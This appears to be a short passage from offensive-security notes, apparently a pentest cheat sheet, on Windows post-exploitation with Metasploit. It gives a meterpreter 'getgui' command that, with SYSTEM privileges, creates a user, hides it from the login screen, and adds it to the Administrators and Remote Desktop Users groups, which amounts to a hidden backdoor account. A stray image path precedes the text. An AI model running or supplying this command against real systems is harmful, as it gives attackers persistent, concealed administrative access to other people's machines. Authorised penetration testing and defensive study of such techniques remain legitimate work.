

Remotely from the attacker machine(meterpreter)
Prerequisite
• SYSTEM privileges
Remotely from the attacker machine(meterpreter)meterpreter > run getgui -e -u <user> -p <password>
This command will automatically:
◇ Adding User: <user> with Password: <password>
◇ Hiding user from Windows Login screen
◇ Adding User: <user> to local group 'Remote Desktop Users'
◇ Adding User: <user> to local group 'Administrators'
